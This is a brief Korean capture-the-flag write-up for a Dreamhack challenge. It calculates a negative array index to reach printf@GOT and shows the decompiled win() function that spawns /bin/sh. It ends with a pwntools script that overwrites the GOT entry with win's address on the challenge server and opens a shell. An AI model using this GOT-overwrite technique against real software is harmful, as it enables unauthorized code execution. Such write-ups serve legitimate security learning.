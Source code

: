 ![Image](/assets/img/p_rho/image1.png)

![Image](/assets/img/p_rho/image2.png)

printf@GOT = 0x404008

buf 시작 주소 = 0x404080

![Image](/assets/img/p_rho/image3.png)

![Image](/assets/img/p_rho/image4.png)

buf         = 0x404080
printf@GOT  = 0x404008

차이: 0x404080 - 0x404008 = 0x78 = 120 bytes

배열 인덱싱은 타입 크기 단위로 계산됨

buf[0]의 타입은 unsigned long

x86_64 시스템에서 sizeof(unsigned long) = 8

그러므로 buf[i]는 실제로 buf + (i * 8)만큼 떨어진 주소에 접근함

따라서  오프셋으로 쓰려면 덮고 싶은 바이트 오프셋 / 8해서 인덱스를 계산해야 함 

```c
unsigned __int64 win()
{
  char *argv[3]; // [rsp+0h] [rbp-20h] BYREF
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  argv[0] = "/bin/sh";
  argv[1] = 0;
  execve("/bin/sh", argv, 0);
  return v2 - __readfsqword(0x28u);
}
```

내부에 win 함수가 있으므로 win함수로 덮어주면 된다.

주소는 4011b6

![Image](/assets/img/p_rho/image5.png)

---

exploit.py

```c
from pwn import *

#p = process("./prob")
p =  remote("host3.dreamhack.games",18578)

p.sendlineafter(b"val: ",b"-15")
p.sendlineafter(b"val: ",str(0x00000000004011B6).encode('ascii'))

p.interactive()
```